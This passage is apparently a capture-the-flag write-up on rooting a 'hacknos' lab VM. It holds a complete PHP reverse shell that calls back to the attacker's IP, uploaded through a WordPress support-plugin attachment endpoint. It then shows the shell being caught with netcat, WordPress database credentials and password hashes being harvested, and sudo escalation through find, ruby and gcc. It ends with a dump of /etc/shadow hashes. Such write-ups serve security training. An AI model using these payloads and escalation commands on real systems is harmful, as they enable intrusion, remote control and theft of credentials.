    "body": "-----------------------------57121678915579519494221609516\r\nContent-Disposition: form-data; name=\"action\"\r\n\r\nwpsp_upload_attachment\r\n-----------------------------57121678915579519494221609516\r\nContent-Disposition: form-data; name=\"0\"; filename=\"rshell.phtml\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php\n\nset_time_limit (0);\n$VERSION = \"1.0\";\n$ip = '192.168.56.70';  // CHANGE THIS\n$port = 443;       // CHANGE THIS\n$chunk_size = 1400;\n$write_a = null;\n$error_a = null;\n$shell = 'uname -a; w; id; /bin/sh -i';\n$daemon = 0;\n$debug = 0;\n\n//\n// Daemonise ourself if possible to avoid zombies later\n//\n\n// pcntl_fork is hardly ever available, but will allow us to daemonise\n// our php process and avoid zombies.  Worth a try...\nif (function_exists('pcntl_fork')) {\n\t// Fork and have the parent process exit\n\t$pid = pcntl_fork();\n\t\n\tif ($pid == -1) {\n\t\tprintit(\"ERROR: Can't fork\");\n\t\texit(1);\n\t}\n\t\n\tif ($pid) {\n\t\texit(0);  // Parent exits\n\t}\n\n\t// Make the current process a session leader\n\t// Will only succeed if we forked\n\tif (posix_setsid() == -1) {\n\t\tprintit(\"Error: Can't setsid()\");\n\t\texit(1);\n\t}\n\n\t$daemon = 1;\n} else {\n\tprintit(\"WARNING: Failed to daemonise.  This is quite common and not fatal.\");\n}\n\n// Change to a safe directory\nchdir(\"/\");\n\n// Remove any umask we inherited\numask(0);\n\n//\n// Do the reverse shell...\n//\n\n// Open reverse connection\n$sock = fsockopen($ip, $port, $errno, $errstr, 30);\nif (!$sock) {\n\tprintit(\"$errstr ($errno)\");\n\texit(1);\n}\n\n// Spawn shell process\n$descriptorspec = array(\n   0 => array(\"pipe\", \"r\"),  // stdin is a pipe that the child will read from\n   1 => array(\"pipe\", \"w\"),  // stdout is a pipe that the child will write to\n   2 => array(\"pipe\", \"w\")   // stderr is a pipe that the child will write to\n);\n\n$process = proc_open($shell, $descriptorspec, $pipes);\n\nif (!is_resource($process)) {\n\tprintit(\"ERROR: Can't spawn shell\");\n\texit(1);\n}\n\n// Set everything to non-blocking\n// Reason: Occsionally reads will block, even though stream_select tells us they won't\nstream_set_blocking($pipes[0], 0);\nstream_set_blocking($pipes[1], 0);\nstream_set_blocking($pipes[2], 0);\nstream_set_blocking($sock, 0);\n\nprintit(\"Successfully opened reverse shell to $ip:$port\");\n\nwhile (1) {\n\t// Check for end of TCP connection\n\tif (feof($sock)) {\n\t\tprintit(\"ERROR: Shell connection terminated\");\n\t\tbreak;\n\t}\n\n\t// Check for end of STDOUT\n\tif (feof($pipes[1])) {\n\t\tprintit(\"ERROR: Shell process terminated\");\n\t\tbreak;\n\t}\n\n\t// Wait until a command is end down $sock, or some\n\t// command output is available on STDOUT or STDERR\n\t$read_a = array($sock, $pipes[1], $pipes[2]);\n\t$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);\n\n\t// If we can read from the TCP socket, send\n\t// data to process's STDIN\n\tif (in_array($sock, $read_a)) {\n\t\tif ($debug) printit(\"SOCK READ\");\n\t\t$input = fread($sock, $chunk_size);\n\t\tif ($debug) printit(\"SOCK: $input\");\n\t\tfwrite($pipes[0], $input);\n\t}\n\n\t// If we can read from the process's STDOUT\n\t// send data down tcp connection\n\tif (in_array($pipes[1], $read_a)) {\n\t\tif ($debug) printit(\"STDOUT READ\");\n\t\t$input = fread($pipes[1], $chunk_size);\n\t\tif ($debug) printit(\"STDOUT: $input\");\n\t\tfwrite($sock, $input);\n\t}\n\n\t// If we can read from the process's STDERR\n\t// send data down tcp connection\n\tif (in_array($pipes[2], $read_a)) {\n\t\tif ($debug) printit(\"STDERR READ\");\n\t\t$input = fread($pipes[2], $chunk_size);\n\t\tif ($debug) printit(\"STDERR: $input\");\n\t\tfwrite($sock, $input);\n\t}\n}\n\nfclose($sock);\nfclose($pipes[0]);\nfclose($pipes[1]);\nfclose($pipes[2]);\nproc_close($process);\n\n// Like print, but does nothing if we've daemonised ourself\n// (I can't figure out how to redirect STDOUT like a proper daemon)\nfunction printit ($string) {\n\tif (!$daemon) {\n\t\tprint \"$string\\n\";\n\t}\n}\n\n?> \n\n\n\n\r\n-----------------------------57121678915579519494221609516--\r\n",
    "method": "POST",
    "mode": "cors"
});
```

## Catch a reverse shell

```shell
curl http://$IP/WORDPRESS/wp-content/uploads/wpsp/MAGIC_filename.phtml

## this worked
curl http://192.168.56.85/g@web/wp-content/uploads/wpsp/1640691390_rshell.phtml
```

```shell
sudo nc -nlvp $LPORT -s $LHOST 
[sudo] password for f0c1s: 
Listening on 192.168.56.70 443
Connection received on 192.168.56.85 40084
Linux hacknos 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64 GNU/Linux
 03:39:39 up  1:44,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ date
Tue Dec 28 03:40:13 PST 2021
$ hostname
hacknos
```


```shell
$ ls -la
total 72
drwxr-xr-x 18 root root  4096 Apr  7  2020 .
drwxr-xr-x 18 root root  4096 Apr  7  2020 ..
-rw-------  1 root root   804 Apr  7  2020 .viminfo
lrwxrwxrwx  1 root root     7 Jan 30  2020 bin -> usr/bin
drwxr-xr-x  3 root root  4096 Jan 30  2020 boot
drwxr-xr-x 17 root root  3160 Dec 28 02:27 dev
drwxr-xr-x 85 root root  4096 Apr 10  2020 etc
drwxr-xr-x  5 root root  4096 Apr  1  2020 home
lrwxrwxrwx  1 root root    30 Jan 30  2020 initrd.img -> boot/initrd.img-4.19.0-6-amd64
lrwxrwxrwx  1 root root    30 Jan 30  2020 initrd.img.old -> boot/initrd.img-4.19.0-6-amd64
lrwxrwxrwx  1 root root     7 Jan 30  2020 lib -> usr/lib
lrwxrwxrwx  1 root root     9 Jan 30  2020 lib32 -> usr/lib32
lrwxrwxrwx  1 root root     9 Jan 30  2020 lib64 -> usr/lib64
lrwxrwxrwx  1 root root    10 Jan 30  2020 libx32 -> usr/libx32
drwx------  2 root root 16384 Jan 30  2020 lost+found
drwxr-xr-x  3 root root  4096 Jan 30  2020 media
drwxr-xr-x  2 root root  4096 Jan 30  2020 mnt
drwxr-xr-x  2 root root  4096 Jan 30  2020 opt
dr-xr-xr-x 84 root root     0 Dec 28 01:55 proc
drwx------  5 root root  4096 Apr 10  2020 root
drwxr-xr-x 17 root root   480 Dec 28 01:55 run
lrwxrwxrwx  1 root root     8 Jan 30  2020 sbin -> usr/sbin
drwxr-xr-x  2 root root  4096 Apr 10  2020 srv
dr-xr-xr-x 13 root root     0 Dec 28 01:54 sys
drwxrwxrwt  2 root root  4096 Dec 28 03:36 tmp
drwxr-xr-x 13 root root  4096 Jan 30  2020 usr
drwxr-xr-x 13 root root  4096 Apr  1  2020 var
lrwxrwxrwx  1 root root    27 Jan 30  2020 vmlinuz -> boot/vmlinuz-4.19.0-6-amd64
lrwxrwxrwx  1 root root    27 Jan 30  2020 vmlinuz.old -> boot/vmlinuz-4.19.0-6-amd64

$ python -c 'import pty;pty.spawn("/bin/bash");'
www-data@hacknos:/$ cat /etc/passwd | grep "/bin/bash"

cat /etc/passwd | grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
hunter:x:1000:1000:hunter,,,:/home/hunter:/bin/bash
security:x:1001:1001:Security,,,,Audit:/home/security:/bin/bash
hackNos-boat:x:1002:1002:crawler,,,,web directory crawler:/home/hackNos-boat:/bin/bash

www-data@hacknos:/$ cd /var/www/html
cd /var/www/html

www-data@hacknos:/var/www/html$ ls -la
ls -la
total 28
drwxr-xr-x 3 www-data www-data  4096 Apr  7  2020 .
drwxr-xr-x 3 root     root      4096 Jan 30  2020 ..
-rwxr-xr-x 1 www-data www-data    18 Apr  1  2020 .htaccess
drwxr-xr-x 5 www-data www-data  4096 Apr 10  2020 g@web
-rwxr-xr-x 1 www-data www-data 10594 Jan 30  2020 index.html
www-data@hacknos:/var/www/html$ grep -C5 -Hnri db_password *
grep -C5 -Hnri db_password *
g@web/wp-includes/load.php-416- if ( isset( $wpdb ) ) {
g@web/wp-includes/load.php-417-         return;
g@web/wp-includes/load.php-418- }
g@web/wp-includes/load.php-419-
g@web/wp-includes/load.php-420- $dbuser     = defined( 'DB_USER' ) ? DB_USER : '';
g@web/wp-includes/load.php:421: $dbpassword = defined( 'DB_PASSWORD' ) ? DB_PASSWORD : '';
g@web/wp-includes/load.php-422- $dbname     = defined( 'DB_NAME' ) ? DB_NAME : '';
g@web/wp-includes/load.php-423- $dbhost     = defined( 'DB_HOST' ) ? DB_HOST : '';
g@web/wp-includes/load.php-424-
g@web/wp-includes/load.php-425- $wpdb = new wpdb( $dbuser, $dbpassword, $dbname, $dbhost );
g@web/wp-includes/load.php-426-}
--
g@web/wp-admin/setup-config.php-291-             *
g@web/wp-admin/setup-config.php-292-             * @ignore
g@web/wp-admin/setup-config.php-293-             */
g@web/wp-admin/setup-config.php-294-            define( 'DB_NAME', $dbname );
g@web/wp-admin/setup-config.php-295-            define( 'DB_USER', $uname );
g@web/wp-admin/setup-config.php:296:            define( 'DB_PASSWORD', $pwd );
g@web/wp-admin/setup-config.php-297-            define( 'DB_HOST', $dbhost );
g@web/wp-admin/setup-config.php-298-            /**#@-*/
g@web/wp-admin/setup-config.php-299-
g@web/wp-admin/setup-config.php-300-            // Re-construct $wpdb with these new values.
g@web/wp-admin/setup-config.php-301-            unset( $wpdb );
--
g@web/wp-admin/setup-config.php-365-                    $padding  = $match[2];
g@web/wp-admin/setup-config.php-366-
g@web/wp-admin/setup-config.php-367-                    switch ( $constant ) {
g@web/wp-admin/setup-config.php-368-                            case 'DB_NAME':
g@web/wp-admin/setup-config.php-369-                            case 'DB_USER':
g@web/wp-admin/setup-config.php:370:                            case 'DB_PASSWORD':
g@web/wp-admin/setup-config.php-371-                            case 'DB_HOST':
g@web/wp-admin/setup-config.php-372-                                    $config_file[ $line_num ] = "define( '" . $constant . "'," . $padding . "'" . addcslashes( constant( $constant ), "\\'" ) . "' );\r\n";
g@web/wp-admin/setup-config.php-373-                                    break;
g@web/wp-admin/setup-config.php-374-                            case 'DB_CHARSET':
g@web/wp-admin/setup-config.php-375-                                    if ( 'utf8mb4' === $wpdb->charset || ( ! $wpdb->charset && $wpdb->has_cap( 'utf8mb4' ) ) ) {
--
g@web/wp-config.php-24-
g@web/wp-config.php-25-/** MySQL database username */
g@web/wp-config.php-26-define( 'DB_USER', 'wp' );
g@web/wp-config.php-27-
g@web/wp-config.php-28-/** MySQL database password */
g@web/wp-config.php:29:define( 'DB_PASSWORD', 'g@web-password' );
g@web/wp-config.php-30-
g@web/wp-config.php-31-/** MySQL hostname */
g@web/wp-config.php-32-define( 'DB_HOST', 'localhost' );
g@web/wp-config.php-33-
g@web/wp-config.php-34-/** Database Charset to use in creating database tables. */
--
g@web/wp-config-sample.php-24-
g@web/wp-config-sample.php-25-/** MySQL database username */
g@web/wp-config-sample.php-26-define( 'DB_USER', 'username_here' );
g@web/wp-config-sample.php-27-
g@web/wp-config-sample.php-28-/** MySQL database password */
g@web/wp-config-sample.php:29:define( 'DB_PASSWORD', 'password_here' );
g@web/wp-config-sample.php-30-
g@web/wp-config-sample.php-31-/** MySQL hostname */
g@web/wp-config-sample.php-32-define( 'DB_HOST', 'localhost' );
g@web/wp-config-sample.php-33-
g@web/wp-config-sample.php-34-/** Database Charset to use in creating database tables. */

```

Credentials wp:g@web-password

### DB access

```shell
www-data@hacknos:/var/www/html$ mysql -uwp -p"g@web-password"
mysql -uwp -p"g@web-password"
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 403
Server version: 10.3.18-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| hackNos            |
| information_schema |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [(none)]> use hackNos;
use hackNos;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [hackNos]> show tables
show tables
    -> ;
;
+---------------------------+
| Tables_in_hackNos         |
+---------------------------+
| wp_bwg_album              |
| wp_bwg_album_gallery      |
| wp_bwg_file_paths         |
| wp_bwg_gallery            |
| wp_bwg_image              |
| wp_bwg_image_comment      |
| wp_bwg_image_rate         |
| wp_bwg_image_tag          |
| wp_bwg_shortcode          |
| wp_bwg_theme              |
| wp_commentmeta            |
| wp_comments               |
| wp_links                  |
| wp_options                |
| wp_postmeta               |
| wp_posts                  |
| wp_term_relationships     |
| wp_term_taxonomy          |
| wp_termmeta               |
| wp_terms                  |
| wp_usermeta               |
| wp_users                  |
| wp_wpsp_agent_settings    |
| wp_wpsp_attachments       |
| wp_wpsp_canned_reply      |
| wp_wpsp_catagories        |
| wp_wpsp_custom_fields     |
| wp_wpsp_custom_priority   |
| wp_wpsp_custom_status     |
| wp_wpsp_faq               |
| wp_wpsp_faq_catagories    |
| wp_wpsp_panel_custom_menu |
| wp_wpsp_ticket            |
| wp_wpsp_ticket_thread     |
+---------------------------+
34 rows in set (0.000 sec)

MariaDB [hackNos]> desc wp_users;
desc wp_users;
+---------------------+---------------------+------+-----+---------------------+----------------+
| Field               | Type                | Null | Key | Default             | Extra          |
+---------------------+---------------------+------+-----+---------------------+----------------+
| ID                  | bigint(20) unsigned | NO   | PRI | NULL                | auto_increment |
| user_login          | varchar(60)         | NO   | MUL |                     |                |
| user_pass           | varchar(255)        | NO   |     |                     |                |
| user_nicename       | varchar(50)         | NO   | MUL |                     |                |
| user_email          | varchar(100)        | NO   | MUL |                     |                |
| user_url            | varchar(100)        | NO   |     |                     |                |
| user_registered     | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
| user_activation_key | varchar(255)        | NO   |     |                     |                |
| user_status         | int(11)             | NO   |     | 0                   |                |
| display_name        | varchar(250)        | NO   |     |                     |                |
+---------------------+---------------------+------+-----+---------------------+----------------+
10 rows in set (0.001 sec)

MariaDB [hackNos]> select user_login, user_pass, user_email from wp_users;
select user_login, user_pass, user_email from wp_users;
+------------+------------------------------------+---------------------+
| user_login | user_pass                          | user_email          |
+------------+------------------------------------+---------------------+
| wp-local   | $P$BqZpgxEe/0XviVQrrAllQUW7jiW5oK1 | contact@hacknos.com |
+------------+------------------------------------+---------------------+
1 row in set (0.000 sec)


```

We alread have it.

```shell
MariaDB [hackNos]> select * from wp_usermeta;
...
| 4 | 1 | description | you can upgrade you shell using hackNos@9012!! |  
...
```



## Upgrade shell

```shell
www-data@hacknos:/var/www/html$ su hunter
su hunter
Password: hackNos@9012!!

su: Authentication failure
www-data@hacknos:/var/www/html$ su security
su security
Password: hackNos@9012!!

security@hacknos:/var/www/html$ id
id
uid=1001(security) gid=1001(security) groups=1001(security)
security@hacknos:/var/www/html$ whoami
whoami
security
```


## Becoming root

```shell
security@hacknos:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for security on hacknos:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User security may run the following commands on hacknos:
    (hacknos-boat) NOPASSWD: /usr/bin/find


security@hacknos:/var/www/html$ sudo find . -exec /bin/sh \; -quit
sudo find . -exec /bin/sh \; -quit
[sudo] password for security: hackNos@9012!!

Sorry, user security is not allowed to execute '/usr/bin/find . -exec /bin/sh ; -quit' as root on hacknos.


security@hacknos:/var/www/html$ sudo -u hacknos_boat find . -exec /bin/sh \; -quit
< sudo -u hacknos_boat find . -exec /bin/sh \; -quit
sudo: unknown user: hacknos_boat
sudo: unable to initialize policy plugin


security@hacknos:/var/www/html$ sudo -u hacknos-boat find . -exec /bin/sh \; -quit
< sudo -u hacknos-boat find . -exec /bin/sh \; -quit
sudo: unknown user: hacknos-boat
sudo: unable to initialize policy plugin


security@hacknos:/var/www/html$ sudo -u hackNos-boat find . -exec /bin/sh \; -quit
< sudo -u hackNos-boat find . -exec /bin/sh \; -quit
$ whoami
whoami
hackNos-boat
$ id
id
uid=1002(hackNos-boat) gid=1002(hackNos-boat) groups=1002(hackNos-boat)


$ sudo -l
sudo -l
Matching Defaults entries for hackNos-boat on hacknos:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User hackNos-boat may run the following commands on hacknos:
    (hunter) NOPASSWD: /usr/bin/ruby


$ sudo -u hunter ruby -e 'exec "/bin/bash"'
sudo -u hunter ruby -e 'exec "/bin/bash"'
hunter@hacknos:/var/www/html$ id
id
uid=1000(hunter) gid=1000(hunter) groups=1000(hunter),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
hunter@hacknos:/var/www/html$ whoami
whoami
hunter
hunter@hacknos:/var/www/html$ sudo -l


sudo -l
Matching Defaults entries for hunter on hacknos:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User hunter may run the following commands on hacknos:
    (ALL) NOPASSWD: /usr/bin/gcc
hunter@hacknos:/var/www/html$ 

hunter@hacknos:/var/www/html$ sudo gcc -wrapper /bin/sh,-s .


sudo gcc -wrapper /bin/sh,-s .
# id
id
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
# date
date
Tue 28 Dec 2021 04:01:49 AM PST
# hostname
hostname
hacknos
```


Rooted.

## Post Root

### /etc/shadow

```shell
root:$6$p7uSjb/XzeMe4WlR$ps0OqVQdOpU1HE5kDxdO9RkCpmlDh.BFrKTz9J1AA8Nh8JssU8f7TdOur9f4FqDXZnPFxKD3qnSwXqmyy2UtR0:18359:0:99999:7:::
daemon:*:18292:0:99999:7:::
bin:*:18292:0:99999:7:::
sys:*:18292:0:99999:7:::
sync:*:18292:0:99999:7:::
games:*:18292:0:99999:7:::
man:*:18292:0:99999:7:::
lp:*:18292:0:99999:7:::
mail:*:18292:0:99999:7:::
news:*:18292:0:99999:7:::
uucp:*:18292:0:99999:7:::
proxy:*:18292:0:99999:7:::
www-data:*:18292:0:99999:7:::
backup:*:18292:0:99999:7:::
list:*:18292:0:99999:7:::
irc:*:18292:0:99999:7:::
gnats:*:18292:0:99999:7:::
nobody:*:18292:0:99999:7:::
_apt:*:18292:0:99999:7:::
systemd-timesync:*:18292:0:99999:7:::
systemd-network:*:18292:0:99999:7:::
systemd-resolve:*:18292:0:99999:7:::
messagebus:*:18292:0:99999:7:::
avahi-autoipd:*:18292:0:99999:7:::
sshd:*:18292:0:99999:7:::
hunter:$6$NqA43ps51YwE0Ko0$0ElkeAyiY60c05lTnvd3MJWILogqlc1Js1Jv6s.Gut/dYGMJu/IJP9hwnrj5Gf6oo7wvah8hRS4GxDNCqgmfd/:18359:0:99999:7:::
systemd-coredump:!!:18292::::::
mysql:!:18292:0:99999:7:::
security:$6$xdbT8UNRX/bRzp86$2Q7M079Ymv8tqWMoDJZ6PgyVNcUgP6SUSMCYlMJHPUyeuy34cA2ayVdrktWr9ysDJK6Fw9PvAxZ2y3UkAX8ZH0:18359:0:99999:7:::
hackNos-boat:$6$ENKKHNHhJKZ0q752$2qOcBDLaifUC0M8uSkggs8.Ab3NKZNWbpziikaFI9nL7l7G3dYnAc.dTuYfu19qjabGtxm1Ei7EguDeCaogmi/:18359:0:99999:7:::
```

### /etc/passwd

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
hunter:x:1000:1000:hunter,,,:/home/hunter:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
security:x:1001:1001:Security,,,,Audit:/home/security:/bin/bash
hackNos-boat:x:1002:1002:crawler,,,,web directory crawler:/home/hackNos-boat:/bin/bash
```

### /etc/*- files

```shell
# ls -lA /etc/*-
ls -lA /etc/*-
-rw-r--r-- 1 root root    838 Apr  1  2020 /etc/group-
-rw-r----- 1 root shadow  704 Apr  1  2020 /etc/gshadow-
-rw-r--r-- 1 root root   1748 Apr  1  2020 /etc/passwd-
-rw-r----- 1 root shadow 1302 Apr  7  2020 /etc/shadow-
-rw-r--r-- 1 root root     42 Apr  1  2020 /etc/subgid-
-rw-r--r-- 1 root root     42 Apr  1  2020 /etc/subuid-
# diff /etc/shadow /etc/shadow-
diff /etc/shadow /etc/shadow-
28a29
> ftp:*:18354:0:99999:7:::
# diff /etc/passwd /etc/passwd-
diff /etc/passwd /etc/passwd-
28a29
> ftp:x:108:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```

## How to root

1. Open web page, read through. It looks familiar, but is hiding stuff
2. Find wordpress vulnerability
3. Login, get cookies.
4. Upload a file.
5. Catch reverse shell
6. Look into database
7. Look at users on the system
8. Enumerate what each user can do.
9. Keep going back to gtfobins
10. Finally be root.


</body>
</html>

